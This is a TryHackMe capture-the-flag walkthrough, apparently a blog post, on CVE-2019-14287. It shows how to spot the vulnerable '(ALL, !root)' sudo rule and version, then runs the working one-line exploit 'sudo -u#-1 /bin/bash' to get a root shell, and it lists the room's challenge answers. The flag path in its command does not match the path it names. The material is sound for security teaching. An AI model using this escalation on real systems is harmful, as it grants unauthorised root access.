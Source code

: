 
**Title**: Sudo Security Bypass - TryHackMe  
**Published**: 2020-08-16  
**Updated**: 2025-07-17  
**Description**: A step-by-step guide to identifying and exploiting CVE-2019-14287 in the Unix Sudo Program.  
**Image**: ./cover.jpg  
**Tags**: ["TryHackMe", "CVE-2019-14287", "Sudo", "Privilege Escalation"]  
**Category**: TryHackMe  
**Draft**: false  

---

## Introduction

This guide provides a detailed walkthrough for identifying and exploiting CVE-2019-14287, a privilege escalation vulnerability in the Unix Sudo program. This is Room One in the SudoVulns Series on TryHackMe, designed to teach security bypass techniques.

:::linkbox
**TryHackMe Room: Sudo Security Bypass**  
A tutorial room exploring CVE-2019-14287 in the Unix Sudo Program. Room One in the SudoVulns Series.  
[Visit Room](https://tryhackme.com/room/sudovulnsbypass?source=post_page-----c78cb21aa0cb---------------------------------------)
:::


---

## Task 1: Deploy

To begin, deploy the TryHackMe machine and connect to it using SSH with the following command, replacing `<port-number>`, `<username>`, and `<remote-machine-ip>` with the values provided by TryHackMe:

```bash
ssh -p <port-number> <username>@<remote-machine-ip>
```

:::note
 Ensure you have the correct credentials and port number from the TryHackMe room instructions.
:::

---

## Task 2: Security Bypass

### Checking for Vulnerability

To determine if the target machine is vulnerable to CVE-2019-14287, first check the sudo configuration by running:

```bash
sudo -l
```

**Expected Output**:
```
User <username> may run the following commands on <hostname>:
    (ALL, !root) /bin/bash
```

If the output includes `(ALL, !root) /bin/bash`, the machine may be vulnerable, as this configuration allows the user to run `/bin/bash` as any user except `root`—a restriction that CVE-2019-14287 can bypass.

![sudo -l output](https://miro.medium.com/v2/resize:fit:2000/format:webp/1*dkduYM7DGoO1UrI6wC7STg.png)
*Image: Output of `sudo -l` showing the vulnerable configuration `(ALL, !root) /bin/bash`.*

To confirm vulnerability, check the sudo version:

```bash
sudo --version
```

![sudo version check](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*tljqQqVfF7IUSVvIk_FJFA.png)
*Image: Checking the sudo version to confirm vulnerability (Sudo < 1.8.28).*

If the version is **Sudo < 1.8.28** (e.g., 1.8.27 or earlier), the machine is vulnerable. This is because CVE-2019-14287 exploits a flaw in how sudo handles negative user IDs.

:::note
 This vulnerability was patched in Sudo version 1.8.28, released in October 2019.
:::

### Exploiting the Vulnerability

CVE-2019-14287 allows a user to bypass the `(ALL, !root)` restriction by specifying an invalid user ID (`-u#-1`), which sudo interprets as the root user due to improper validation. To exploit this, run:

```bash
sudo -u#-1 /bin/bash
```

![security bypass exploit](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*XxHCy_a432wtnCSVzlsVSQ.png)
*Image: Executing the exploit command `sudo -u#-1 /bin/bash` to gain a root shell.*

This command grants a root shell, as the `-u#-1` flag tricks sudo into running `/bin/bash` as the root user (UID 0).

### Capturing the Root Flag

With root access, navigate to the `/root` directory and read the `root.txt` file to retrieve the flag:

```bash
cd /root
cat /root.txt
```

![root flag](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*SPWk07gIDobGn4ljOGAq8g.png)
*Image: Displaying the root flag from `/root/root.txt`.*

The flag will be in the format `THM{...}`.

---

## Challenges

**#1. What command are you allowed to run with sudo?**  
**Answer**: `/bin/bash`

**#2. What is the flag in /root/root.txt?**  
**Answer**: `THM{l33t_********_******}`

---

## Conclusion

Congratulations! You’ve successfully identified and exploited CVE-2019-14287 to bypass sudo’s security restrictions and capture the root flag. This exercise demonstrates the importance of keeping software up to date to mitigate known vulnerabilities.

---
